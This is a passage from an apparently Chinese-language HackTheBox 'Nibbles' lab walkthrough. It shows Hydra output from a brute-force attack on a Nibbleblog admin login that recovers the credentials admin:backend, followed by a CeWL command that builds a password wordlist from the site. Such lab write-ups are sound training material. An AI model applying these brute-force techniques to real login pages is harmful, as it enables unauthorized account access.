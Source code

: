    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-28 00:34:43
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 353 login tries (l:1/p:353), ~23 tries per task
    [DATA] attacking http-post-form://10.10.10.75:80/nibbleblog/admin.php:username=^user^&password=^PASS^:F=Incorrect username or password
    [80][http-post-form] host: 10.10.10.75   login: admin   password: backend
    [STATUS] attack finished for 10.10.10.75 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-28 00:34:45
    ```

+ `admin:backend`登录尝试：

    ![](/style/image/2024-02-28-00-38-13.png)

    + 容易被黑名单阻止

+ 从`http://10.10.10.75/nibbleblog/`爬取关键词形成密码列表：

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Nibbles]
    └─$ cewl -w list.txt -d 5 -m 5 http://10.10.10.75/nibbleblog 
    CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
    ```
    ![](/style/image/2024-02-28-00-51-40.png)
